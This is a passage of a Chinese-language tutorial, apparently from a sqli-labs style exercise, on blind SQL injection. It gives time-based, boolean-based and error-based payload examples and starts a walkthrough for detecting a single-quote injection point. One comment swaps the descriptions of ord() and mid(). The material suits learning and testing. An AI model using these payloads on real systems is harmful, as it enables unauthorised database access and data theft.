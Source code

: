 #### 盲注的类型有哪些

1. 基于时间的盲注

   基于时间？其实就是也有点是需要结合布尔的，我注入SQL去一个一个猜测字符串的值，如果是对，延迟几秒再显示页面，如果是错，就正常显示页面

   ```
   if(ascii(substr(database(),1,1))>115,sleep(5),0) --+	//如果条件为真，执行 sleep
   ```

   

2. 基于布尔的盲注

   基于布尔？其实跟时间很像，只不过做判断的不再是时间，而是返回的数据本身，比如，我查ABC这一数据，问第一个字母的 ASCII 值是不是大于 100 ，如果正确，页面就会显示 you are in…，如果错误就什么都不显示

   ```
   left(database(),1)>'s'		//database():显示数据库名称 left(a,b) 从左侧截取 a 的前 b 位
   
   ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 --+		//substr(a,b,c)：从 b 位置开始截取 a 字符串的 c 长度，ascii()：将某个字符串转化为 ascii 值
   
   ord(mid((select IFNULL(CAST(usernames as char),0x20)from security.users order by id limit 0,1),1,1))>98 --+			//ord():同substr()，mid()：同ascii()
   ```

   

3. 基于报错的盲注

   基于报错有点类似报错注入，通过一些函数特性报错得到需要的结果

   ```
   select count(*) from information_schema.tables group by concat((select database()),floor(rand()*2))		//基础的报错盲注
   
   select count(*) from (select 1 union select null union select !1) group by concat(version(),floor(rand()*2))	//适用于：information_schema.tables表被禁用了
   
   select min(@a:=1) from information_schema.tables group by concat(password,@a:(@a+1)%2)		//适用于：rand被禁用了，于是可以使用用户变量来报错
   ```



#### 解题

1. **判断注入形式**

   ```
   ?id=1		//正常
   ?id=1'		//报错
   ?id=1"		//正常
   基本判断为单引号字符型注入
   ```

2. **分析是否存在括号及个数**

   ```
   ?id=1' and 1=1 --+		//正常，确认无括号
   ?id=1' and 1=2 --+		//报错
   ```
